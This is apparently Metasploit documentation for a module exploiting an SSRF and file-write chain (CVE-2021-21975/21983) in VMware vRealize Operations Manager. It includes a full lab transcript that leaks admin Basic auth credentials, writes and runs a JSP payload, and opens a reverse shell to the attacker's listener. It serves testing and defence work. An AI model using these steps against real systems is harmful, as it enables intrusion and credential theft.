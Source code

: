 ## Vulnerable Application

### Description

This module exploits a pre-auth SSRF ([CVE-2021-21975]) and post-auth
file write ([CVE-2021-21983]) in VMware vRealize Operations Manager to
leak admin creds and write/execute a JSP payload.

The following vRealize Operations Manager versions are vulnerable:

* 7.0.0
* 7.5.0
* 8.0.0, 8.0.1
* 8.1.0, 8.1.1
* 8.2.0
* 8.3.0

Version 8.3.0 is not exploitable for creds and is therefore not
supported by this module. Tested against 8.0.1.

[CVE-2021-21975]: https://nvd.nist.gov/vuln/detail/CVE-2021-21975
[CVE-2021-21983]: https://nvd.nist.gov/vuln/detail/CVE-2021-21983

### Setup

Import an exploitable vRealize Operations Manager OVA, such as
[vRealize-Operations-Manager-Appliance-8.0.1.15331180_OVF10.ova], into
your desired hypervisor.

[vRealize-Operations-Manager-Appliance-8.0.1.15331180_OVF10.ova]:
https://my.vmware.com/web/vmware/downloads/details?downloadGroup=VROPS-801&productId=940&rPId=40733

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`vRealize Operations Manager < 8.3.0`

## Scenarios

### vRealize Operations Manager 8.0.1

```
msf6 > use exploit/linux/http/vmware_vrops_mgr_ssrf_rce
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > options

Module options (exploit/linux/http/vmware_vrops_mgr_ssrf_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8443             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   vRealize Operations Manager < 8.3.0


msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > set rhosts 192.168.123.185
rhosts => 192.168.123.185
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Starting SSRF server...
[*] Using URL: https://0.0.0.0:8443/XtwOOPWn9SJ7
[*] Local IP: https://192.168.1.65:8443/XtwOOPWn9SJ7
[*] Executing automatic check (disable AutoCheck to override)
[*] Leaking admin creds via SSRF...
[*] 192.168.123.1:8443/XtwOOPWn9SJ7#
[*] 192.168.123.185 connected to SSRF server!
GET /XtwOOPWn9SJ7 HTTP/1.1
Accept: application/xml, application/json
Content-Type: application/json
Accept-Charset: big5, big5-hkscs, cesu-8, euc-jp, euc-kr, gb18030, gb2312, gbk, ibm-thai, ibm00858, ibm01140, ibm01141, ibm01142, ibm01143, ibm01144, ibm01145, ibm01146, ibm01147, ibm01148, ibm01149, ibm037, ibm1026, ibm1047, ibm273, ibm277, ibm278, ibm280, ibm284, ibm285, ibm290, ibm297, ibm420, ibm424, ibm437, ibm500, ibm775, ibm850, ibm852, ibm855, ibm857, ibm860, ibm861, ibm862, ibm863, ibm864, ibm865, ibm866, ibm868, ibm869, ibm870, ibm871, ibm918, iso-2022-cn, iso-2022-jp, iso-2022-jp-2, iso-2022-kr, iso-8859-1, iso-8859-13, iso-8859-15, iso-8859-2, iso-8859-3, iso-8859-4, iso-8859-5, iso-8859-6, iso-8859-7, iso-8859-8, iso-8859-9, jis_x0201, jis_x0212-1990, koi8-r, koi8-u, shift_jis, tis-620, us-ascii, utf-16, utf-16be, utf-16le, utf-32, utf-32be, utf-32le, utf-8, windows-1250, windows-1251, windows-1252, windows-1253, windows-1254, windows-1255, windows-1256, windows-1257, windows-1258, windows-31j, x-big5-hkscs-2001, x-big5-solaris, x-compound_text, x-euc-jp-linux, x-euc-tw, x-eucjp-open, x-ibm1006, x-ibm1025, x-ibm1046, x-ibm1097, x-ibm1098, x-ibm1112, x-ibm1122, x-ibm1123, x-ibm1124, x-ibm1166, x-ibm1364, x-ibm1381, x-ibm1383, x-ibm300, x-ibm33722, x-ibm737, x-ibm833, x-ibm834, x-ibm856, x-ibm874, x-ibm875, x-ibm921, x-ibm922, x-ibm930, x-ibm933, x-ibm935, x-ibm937, x-ibm939, x-ibm942, x-ibm942c, x-ibm943, x-ibm943c, x-ibm948, x-ibm949, x-ibm949c, x-ibm950, x-ibm964, x-ibm970, x-iscii91, x-iso-2022-cn-cns, x-iso-2022-cn-gb, x-iso-8859-11, x-jis0208, x-jisautodetect, x-johab, x-macarabic, x-maccentraleurope, x-maccroatian, x-maccyrillic, x-macdingbat, x-macgreek, x-machebrew, x-maciceland, x-macroman, x-macromania, x-macsymbol, x-macthai, x-macturkish, x-macukraine, x-ms932_0213, x-ms950-hkscs, x-ms950-hkscs-xp, x-mswin-936, x-pck, x-sjis_0213, x-utf-16le-bom, x-utf-32be-bom, x-utf-32le-bom, x-windows-50220, x-windows-50221, x-windows-874, x-windows-949, x-windows-950, x-windows-iso2022jp
X-VSCM-Request-Id: S30000FM
Authorization: Basic bWFpbnRlbmFuY2VBZG1pbjpLWGp3ZWlmZlBIMGNlM3o5RENRb2o3V1I=
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_212
Host: 192.168.123.1:8443
Connection: keep-alive


[+] Successfully leaked admin creds
[*] Authorization: Basic bWFpbnRlbmFuY2VBZG1pbjpLWGp3ZWlmZlBIMGNlM3o5RENRb2o3V1I=
[+] The target is vulnerable.
[*] Writing JSP payload
[*] /usr/lib/vmware-casa/casa-webapp/webapps/casa/0DlEVqGWYr.jsp
[+] Successfully wrote JSP payload
[*] Executing JSP payload
[*] https://192.168.123.185/casa/0DlEVqGWYr.jsp
[+] Successfully executed JSP payload
[+] Deleted /usr/lib/vmware-casa/casa-webapp/webapps/casa/0DlEVqGWYr.jsp
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.185:59260) at 2021-04-11 12:19:21 -0500
[*] Server stopped.

id
uid=1000(admin) gid=1003(admin) groups=1003(admin),0(root),25(apache),28(wheel)
uname -a
Linux vRealizeClusterNode 4.19.69-1.ph3 #1-photon SMP Fri Sep 6 00:00:41 UTC 2019 x86_64 GNU/Linux
```
